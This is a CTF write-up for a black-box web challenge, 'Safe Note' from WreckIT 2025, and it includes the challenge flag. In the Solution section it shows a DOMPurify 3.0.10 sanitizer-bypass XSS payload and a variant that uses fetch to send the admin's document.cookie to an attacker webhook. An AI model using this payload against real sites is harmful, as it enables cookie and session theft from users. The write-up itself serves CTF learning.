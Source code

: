 ```yaml
---
description: '[Solved] A black box web exploitation CTF challenge from WreckIT 2025'
---
```


# \[Web] Safe Note

## TL;DR

* Blackbox challenge but we can see that it uses dompurify 3.0.10 min,js
* There's a CVE: [https://security.snyk.io/vuln/SNYK-JS-DOMPURIFY-6474511](https://security.snyk.io/vuln/SNYK-JS-DOMPURIFY-6474511)&#x20;
* Just use the payload from the cve to do xss fetch + document.cookie
* Profit

Flag: WRECKIT60{s1mple\_xss\_since\_im\_not-really\_good\_at\_doing\_web}

## Description

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Overview

The website has an input that takes a string of text and then show it in the website. It also able to render a text according to a request paramater 'note'.&#x20;

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Seeing that it can makes a text appear in a website through a link alone, make me leans to think that its an XSS and looking at the source code......&#x20;

Well, We are not given a source code so we are limited to only the source we get from devtools but that is plenty enough.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

As we can see from app.js, theres a possible XSS as the input is set into an innerHTML but is sanitized first by dompurify.

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

The website also has a report functionality for obvious XSS CTF purposes.

## Solution

We know that if we can bypass that dompurify, we can essentialy get XSS and Unfortunately, the website uses an older version of dompurify:

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

It uses Dompurify min.js version 3.0.10 which if we search for CVEs, we find quite a bit of them (lmao). One of them has a payload which is the following,

```javascript
<![CDATA[ ><img src onerror=alert(1)> ]]>
```

I literally just copy pasted it and it works. So I just change it to make it fetch to my webhook with the admin cookie,

```javascript
<![CDATA[ ><img src onerror=fetch('webhook?data=' + document.cookie)> ]]>
```

Then, use the share functionality of the web to change my payload to an URL and then give it to the admin bot and we're done.

## Links

References:

{% embed url="https://security.snyk.io/vuln/SNYK-JS-DOMPURIFY-6474511" %}

